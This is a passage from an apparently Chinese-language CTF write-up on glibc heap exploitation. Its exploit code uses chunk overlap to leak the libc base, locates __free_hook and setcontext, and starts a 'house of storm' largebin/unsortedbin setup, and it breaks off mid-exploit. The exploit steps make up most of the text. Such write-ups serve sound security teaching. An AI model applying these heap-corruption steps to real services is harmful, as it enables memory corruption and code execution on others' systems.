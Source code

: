 	free(0)
	payload = 'a'*0x60 + p64(0x100)
	edit(1, payload)
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4ecbc1851fb4a11b72f4961b3cb4df3.png)
free chunk_2后，触发堆块前向合并，chunk_2的pre_size为是0x100,chunk_0和chunk_1加起来是0x100，就是前三个chunk合并。unsortedbin里存放着原chunk_0的起始地址。

	free(2)

	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/62792e0e3da5422d95259220edb7fdb8.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/dd94627bad054eb4b8269b4b8e123b05.png)
此时chunk_1是没有被free的，然后我们再次申请0x80（原chunk_0大小）大小的chunk，此时原chunk_1的mem区域存放着main_arena+88，因为chunk_1并没有被free，所以我们直接调用show函数即可泄露libc基地址。

	add(0x80)#0
	show(1)
	malloc_hook = u64(ru('\x7f').ljust(8, '\x00')) - 0x58 - 0x10
	libc.address = malloc_hook - libc.sym['__malloc_hook']
	system = libc.sym['system']
	free_hook = libc.sym['__free_hook']
	set_context = libc.symbols['setcontext']
	lg('libc_base',libc.address)
	
	dbg()

![在这里插入图片描述](https://img-blog.csdnimg.cn/9ff831c9123540d58be264d17010621a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/9869752c89264053a4f41e7c96e5278d.png)

### 构造unsortbin chunk 和largebin chunk，进行 house of strom
先申请0x160大小的chunk，将unsortbin中残余chunk清空，之后构造unsortbin chunk 和largebin chunk的调试过程请参考我另一篇文章[House of storm](https://blog.csdn.net/tbsqigongzi/article/details/126185571?spm=1001.2014.3001.5502)
此时我们已以可以修改free_hook处的值了

	#---------------布置chunk-------------------------#
	add(0x18)#4
	add(0x508)#5
	add(0x18)#6
	add(0x18)#7
	add(0x508)#8
	add(0x18)#9
	add(0x18)#10

	#dbg()
	#----------------准备 unsorted chunk-----------------------#	
	edit(5, 'a'*0x4f0+p64(0x500))

	#dbg()

	free(5)
	edit(4, 'a'*0x18)
	